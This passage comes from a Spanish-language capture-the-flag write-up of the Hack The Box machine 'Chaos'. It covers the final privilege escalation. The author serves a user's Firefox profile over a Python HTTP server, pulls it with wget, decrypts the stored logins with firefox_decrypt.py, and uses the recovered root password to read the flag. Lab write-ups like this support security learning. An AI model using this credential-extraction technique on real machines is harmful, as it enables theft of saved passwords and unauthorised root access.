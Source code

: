 Vamos primero a abrir un servidor http con python en la máquina víctima y vamos a descargar todo lo que está en ese directorio.
```
ayush@chaos:~/.mozilla/firefox/bzo7sjt1.default$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/)
```

Luego, en nuestras máquina:
```
wget -r chaos.htb:8000
--2023-02-17 17:37:11--  http://chaos.htb:8000/
Resolving chaos.htb (chaos.htb)... 10.10.10.120
Connecting to chaos.htb (chaos.htb)|10.10.10.120|:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2983 (2.9K) [text/html]
Saving to: ‘chaos.htb:8000/index.html’

chaos.htb:8000/index.html                            100%[=====================================================================================================================>]   2.91K  --.-KB/s    in 0.002s  
```

Lo descargaremos todo.

Luego, vamos a utiliar el script dandole la ruta donde están los archivos:
```

python3 firefox_decrypt.py ../chaos.htb:8000
2023-02-17 17:38:57,539 - WARNING - profile.ini not found in ../chaos.htb:8000
2023-02-17 17:38:57,539 - WARNING - Continuing and assuming '../chaos.htb:8000' is a profile location

Master Password for profile ../chaos.htb:8000: 
```

Nos pide una contraseña, vamos a introducir la que sabemos:
```
python3 firefox_decrypt.py ../chaos.htb:8000
2023-02-17 17:39:35,187 - WARNING - profile.ini not found in ../chaos.htb:8000
2023-02-17 17:39:35,188 - WARNING - Continuing and assuming '../chaos.htb:8000' is a profile location

Master Password for profile ../chaos.htb:8000: 

Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
```
Y ha funcionado, tenemos un usuario y contraseña, vamos a probarlas:
```
ayush@chaos:~/.mozilla/firefox/bzo7sjt1.default$ su root
Password: 
root@chaos:/home/ayush/.mozilla/firefox/bzo7sjt1.default# cd /root/
root@chaos:~# cat root.txt
e893768eae0135bb85dfeb75

```

¡Listo!, nos convertimos en root, hemos terminado la máquina.

Nos vemos, hasta la próxima.

